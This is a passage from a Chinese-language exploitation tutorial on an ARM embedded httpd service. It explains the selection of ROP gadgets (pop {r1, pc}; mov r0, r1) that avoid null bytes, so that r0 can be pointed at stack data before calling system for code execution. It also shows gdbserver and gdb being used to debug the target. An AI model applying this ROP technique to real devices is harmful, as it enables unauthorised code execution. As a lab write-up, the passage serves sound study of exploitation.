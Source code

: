 选取的 gadget 如下：

```plain
pop {r1, pc} 
mov r0, r1 ; pop {r4, r5, pc}
```

为什么不直接选 pop {r0,pc}？因为 pop {r0,pc}对应的地址 0x00033100 中有截断符\\x00，且 libc 基址最后也是\\x00，所以用 pip {r0,pc}会导致输入中断，无法继续利用。所以只能通过先将参数地址传给 r1，之后再 mov 到 r0 中去。

让 r0 指向栈上指定的内容，之后再执行 system 函数就能任意代码执行了。

利用脚本作者也给我们提供了模版，在这个目录下

```plain
./tools/
```

[![](assets/1706959011-af0618c9bbeab344838893412c21fc30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170016-5314acb6-bc29-1.png)

不过这个还是要我们自己调试出对应加载地址和寄存器地址

在测试虚拟机中打开 gdb，先映射一个端口，然后 target remote 192.168.2.2:1234 即可调试

```plain
root@debian-armel:~# ./tools/gdbserver --attach :8888 `ps | grep -v grep | grep httpd | awk '{prin
t $1}'`
Attached; pid = 2298
Listening on port 8888
```

```plain
root@6f747349c6c3:~/tools# gdb
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 192.168.2.2:8888
Remote debugging using 192.168.2.2:8888
```
